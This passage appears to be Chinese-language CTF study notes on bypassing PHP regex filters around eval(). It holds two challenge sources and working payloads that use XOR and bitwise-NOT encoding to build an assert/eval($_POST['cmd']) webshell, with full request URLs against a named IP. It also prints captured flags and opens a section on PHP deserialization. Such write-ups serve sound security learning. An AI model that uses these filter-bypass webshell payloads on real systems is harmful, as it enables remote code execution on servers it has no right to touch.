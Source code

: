 - 得到`%8F%97%8F%91%99%90`

### 例题1

```
 <?php
highlight_file(__FILE__);
if (!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $_GET['a']) ){
    eval($_GET['a']);
    }

?> 
```

- 题目过滤了数字，字母,` ,~ , _ , &等等，我们使用异或方法，通过构造webshell，进行查找flag

```
http://39.107.126.173:28604/?a=${%fe%fe%fe%fe^%a1%b9%bb%aa}{%a0}(${%fe%fe%fe%fe^%a1%b9%bb%aa}{%a1});&%a0=assert&%a1=eval($_POST[%27cmd%27])
```

- 在根目录下找到flag{a1ec0e66-25e3-410f-a242-ee38c5a087f5}

### 例题2

```
<?php
highlight_file(__FILE__);
if(!preg_match('/[a-zA-z0-9]|\&|\^|#|\$|%/', $_GET['a'])){          		eval($_GET['a']);
	 }
?> 
```

- 题目过滤了 ^ ，只能通过取反方法来解答，将`assert，(eval($_POST[cmd]))`，进行取反

​       得到

```
%9E%8C%8C%9A%8D%8B
%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6
```

- 然后通过蚁剑

```
http://39.107.126.173:28684/?a=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6);
```

- 在根目录下找到flag，flag{98fc8f8f-7ef7-4897-9067-0640e7154b9e}

## 反序列化漏洞

### 序列化

- serialize()将一个对象转换成一个字符串

```php
<?php
class ABC{
	public $name='kawhi';
}
$obj = new ABC();
$obj = serialize($obj);
echo $obj;
?>
```
